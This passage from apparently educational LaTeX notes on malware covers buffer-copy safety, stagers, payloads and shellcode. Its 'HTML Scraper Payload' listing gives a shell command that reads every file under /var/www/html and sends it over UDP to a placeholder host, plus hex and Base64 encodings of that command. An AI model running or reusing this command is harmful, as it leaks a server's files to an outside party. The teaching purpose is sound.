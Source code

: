 \begin{tcblisting}{listing only}
Insecure:
strcpy(var2, var1);

More secure:
strncpy(var2, var1, sizeof(var2)); 
\end{tcblisting}

This is a very in depth topic, that is somewhat out of scope, beyond this.


\section{Payload vs Shellcode}
Malware is nothing without some form of code execution. Program code allows for malicious actors to conduct a given task, however, this cannot always be baked into the malware itself.
It is common for malware to follow 'stager' behaviour,  it would download the majority of the malicious code from a remote server. Another avenue is for the malware 'payload' to be obfuscated, compressed and then
injected into a victim by exploiting a given vulnerability. The payload is then executed, and any number of results can come of it. Payloads often come under a few categories:


\begin{lstlisting}[label=payload,caption=Explicit HTML Scraper Payload]

cd /var/www/html; find . -type f -exec cat {} \; > /dev/udp/example.com/80;

Payload (Hex & Base64):
\x63\x64\x20\x2f\x76\x61\x72\x2f\x77\x77\x77\x2f\x68\x74\x6d\x6c\x3b\x20\
x66\x69\x6e\x64\x20\x2e\x20\x2d\x74\x79\x70\x65\x20\x66\x20\x2d\x65\x78\x
65\x63\x20\x63\x61\x74\x20\x7b\x7d\x20\x5c\x3b\x20\x3e\x20\x2f\x64\x65\x7
6\x2f\x75\x64\x70\x2f\x65\x78\x61\x6d\x70\x6c\x65\x2e\x63\x6f\x6d\x2f\x38
\x30\x3b

Y2QgL3Zhci93d3cvaHRtbDsgZmluZCAuIC10eXBlIGYgLWV4ZWMgY2F0IHt9IFw7ID4gL2Rld
i91ZHAvZXhhbXBsZS5jb20vODA7

\end{lstlisting}

Shellcode does come under the payload banner, but is a term used to describe code that returns an interactive terminal session to the threat actor. This means they can execute code at their discretion.
Payloads often are Shellcode in nature, because of the discussed benefits of variable input. Shells vary on system architecture, often coming under Bash or Powershell for their respective operating systems.
Architecture matters, for both when you are giving explicit shell instructions and when you are injecting an executable shell. 

